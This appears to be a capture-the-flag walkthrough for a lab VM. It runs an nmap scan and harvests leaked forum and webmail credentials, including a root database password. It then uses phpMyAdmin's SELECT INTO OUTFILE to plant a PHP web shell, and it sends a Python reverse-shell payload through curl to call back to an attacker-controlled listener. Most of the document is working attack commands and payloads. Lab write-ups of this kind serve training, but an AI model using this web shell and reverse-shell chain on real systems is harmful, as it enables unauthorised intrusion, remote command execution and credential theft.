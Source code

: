 ```sh
nmap --script http-enum 192.168.100.14
```

#### Credentials Of User 'lmezard'

```
https://192.168.100.16/forum/index.php?id=6
```
look there you will find !q\\]Ej?\*5K5cy\*AJ

#### Use 'lmezard' Credentials

```
https://192.168.100.16/forum/index.php?mode=login
```

#### Get More Info about 'lmezard'

```
https://192.168.100.16/forum/index.php?mode=user&action=edit_profile
```

email: *laurie@borntosec.net*

#### Use the email to log in to the webmail with the current password

```
https://192.168.100.16/webmail/src/login.php
```

#### In Webmail,Navigate to

```
https://192.168.100.16/webmail/src/webmail.php
```

And go DB Access

- username: root
- password:Fg-'kKXBj87E:aJ$

#### Log in to phpMyAdmin using root credentials and insert a PHP file for backdoor placement.

```sql
select "<?php echo 'Command: ' . $_POST['cmd'] . '\n'; system($_POST['cmd']);?>" into outfile "/var/www/forum/templates_c/backdoor.php";
```

#### Reverse shell and Listener

```sh
nc -l -vv -p 2000
```

```sh
curl "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);' "
```
